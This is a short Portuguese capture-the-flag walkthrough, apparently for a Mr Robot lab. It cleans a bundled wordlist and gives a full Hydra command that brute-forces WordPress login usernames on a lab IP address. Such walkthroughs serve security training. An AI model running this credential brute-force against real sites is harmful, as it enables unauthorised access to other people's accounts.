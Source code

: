 ## Key 2

- Abrindo em `fsocity.dic` ele vai baixar um arquivo
- Dando um cat no arquivo perceba que tem varios nomes iguals, entao vamos limpar os iguais

```bash
sort fsocity.dic | uniq > clear.txt
```

- Nesse arquivo tem varios nomes, entao que tal usar como wordlist?
- Vamos usar o hydra para isso
- Vamo pegar o cookie do site

![Untitled](Untitled%2011.png)

- A sintaxe

```bash
hydra -L wordlist -p anything ip service "/server:port:opt"
hydra -L wordlist -p anything ip service "/directory:log:error" 
```

```bash
hydra -L clear.txt -p anything 10.10.156.254 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.156.254%2Fwp-admin%2F&testcookie=1:invalid" -V -F
```

| -V | v / -V / -d verbose mode / show login+pass for each attempt / debug mode |
| --- | --- |
| -F | f / -F exit when a login/pass pair is found (-M: -f per host, -F global) |

![Untitled](Untitled%2012.png)